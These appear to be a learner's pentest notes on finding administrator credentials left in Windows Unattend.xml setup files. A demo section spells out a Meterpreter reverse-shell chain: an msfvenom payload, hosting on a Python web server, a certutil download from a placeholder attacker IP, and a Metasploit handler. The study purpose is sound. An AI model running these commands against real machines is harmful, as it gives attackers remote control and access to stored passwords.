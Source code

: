 ![[Pasted image 20230706225922.png]]



### Searching for Passwords in Windows Configuration in Files 

Windows Configuration Files (not third party)

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility,
- which is used to automate the mass installation/deployment of Windows on
- systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

Unattended Windows Setup 
- The Unattended Windows Setup utility configuration file, commonly known as the "unattend.xml" file, is an XML-based configuration file used in Windows operating systems to automate the installation process. It allows for unattended installations, meaning that the installation proceeds without requiring user intervention or input.
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	- C:\\Windows\\Panther\\Unattend.xml
	- C:\\Windows\\Panther\\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows
- Setup configuration file may be encoded in base64

![[Pasted image 20230707111320.png]]

Demo - find password of administrator within a legitimate windows config file 

1. get access to victim 
	- generate meterpreter payload: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe >payload.exe 
	- python -m SimpleHTTPServer 80 
		- This command starts a simple HTTP server using Python. The server listens on port 80, which is the default port for HTTP traffic. The reason why Python's built-in HTTP server is used to host the payload (`payload.exe`) is that it provides a convenient and lightweight way to serve the file to potential victims. By hosting the file on a server, an attacker can share the payload's download link and trick users into downloading and executing the malicious file. Once executed, the meterpreter payload establishes a reverse TCP connection back to the attacker's machine, enabling them to gain unauthorized access and control over the victim's system. 
	- Transfer file to victim system: 
		- open cmd in victim system;
			- certutil -urlcache -f  http://yourip/payload.exe payload.exe 
				- - `certutil`: This is a command-line tool available in Windows operating systems. It is primarily used for managing certificates and certificate-related operations.
				- `-urlcache`: This option is used to download a file from a specified URL and cache it on the local system.
				- `-f`: This option stands for "force," and it is used to overwrite any existing file with the same name during the download.
				- `http://yourip/payload.exe`: This is the URL of the file you want to download. Replace `yourip` with the IP address or domain where the file is hosted.
				- `payload.exe`: This is the name given to the downloaded file on the local system.
	- go back to webserver and shut it down (file has been downloaded)
	- set up msfconsole and set up multi/handler 
		- set payload windows/x64/meterpreter/reverse_tcp, LPORT 1234 LHOST kali ip 
		- Once you go back to the victim system and you click on the payload a meterpreter session will be started in the multi/handler 
		- sysinfo 
		- search -f Unattend.xml    (located: C:\Windows\Panther\Unattend.xml)